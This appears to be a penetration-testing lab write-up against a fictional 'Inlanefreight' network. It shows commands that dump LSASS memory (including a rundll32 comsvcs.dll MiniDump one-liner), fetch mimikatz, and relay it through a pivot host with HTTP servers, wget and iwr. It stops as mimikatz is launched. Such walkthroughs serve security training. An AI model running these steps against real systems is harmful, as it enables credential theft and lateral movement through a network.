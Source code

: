
5. In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

```sh
# Situational awareness
whoami /all

...
BUILTIN\Administrators    Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
...


# Per the hint, We may be able to find something stored in LSASS. Dump it using GUI
RDP > Task Manager > Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

# File located at
C:\Users\mlefay\AppData\Local\Temp\lsass.DMP


# Using elevated powershell
Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1255      29     6548      44804       1.42    668   0 lsass


PS C:\Users> rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 668 C:\lsass.dmp full

# Verify
 ls

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---         5/6/2022   2:30 AM                Program Files
d-----         5/6/2022   2:28 AM                Program Files (x86)
d-r---        5/17/2022  11:14 AM                Users
d-----        5/17/2022  11:10 AM                Windows
-a----        5/17/2022   8:41 AM             21 Flag.txt
-a----         5/4/2025   9:36 PM       45968240 lsass.dmp


# Transfer that to our Kali machine? Didn't find an easy way. So, had to revers to mimikatz. Download on Parrot
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip


# Transfer to Pivot host
python3 -m http.server 8000
wget http://10.10.15.242:8000/mimikatz_trunk.zip


# Then transfer to windows target
python3 -m http.server 8000 # Pivot
iwr -uri 172.16.5.15:8000/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip


# Extract all the files into a folder
 .\mimikatz.exe

```